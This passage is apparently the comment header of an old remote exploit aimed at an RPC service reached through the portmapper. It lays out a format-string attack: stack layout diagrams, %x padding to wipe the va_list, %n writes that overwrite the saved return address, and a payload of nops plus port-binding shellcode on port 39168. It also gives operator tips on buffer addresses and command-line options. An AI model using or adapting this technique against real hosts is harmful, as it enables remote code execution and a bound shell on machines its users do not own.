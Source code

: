 *** inbound connections to the portmapper. The default attack protocol

*** is UDP. There is a commandline option to use TCP. Apparently, the

*** dispatcher uses both protocols by default.

***

*** If you're only interested in exploiting a host, then you can safely

*** skip the following information. You'll only need a buffer address

*** to get started. This buffer address will either be one of my canned

*** ones or your own one. It must be precise, and this is where you're

*** likely to experience difficulties with your attacks.

***

*** [va_list][str][4][r][4][r+1][4][r+2][4][r+3]----->

*** |       |

*** %esp    buffer[1024]

***

*** [%x..][%!d][%n][%!d][%n][%!d][%n][%!d][%n][sc]--->

***       |   r   |   r+1  |   r+2  |  r+3   |

***

*** buffer  ->  This is the address you'll need (-a and -l options)

*** str     ->  Process-supplied string; 24 bytes long

*** 4       ->  Duplicate dwords to satisfy the %!d specifiers and

***             the double %n when two successive values are equal

*** r       ->  Stack position of saved eip

*** %x..    ->  Wipes the va_list dword and str; 9 by default (-w option)

*** %!d     ->  Used for padding to form an aggregate overwrite value;

***             the exclamation mark denotes a field width. This may

***             or may not be present, depending on the value. An

***             algorithm is used to allow tricky values.

*** %n      ->  Writes overwrite value to the corresponding address

*** sc      ->  Nops + portbinding shellcode (port 39168)

***

*** Only modify the default wipe value and the default offset value if you

*** know what you're doing.
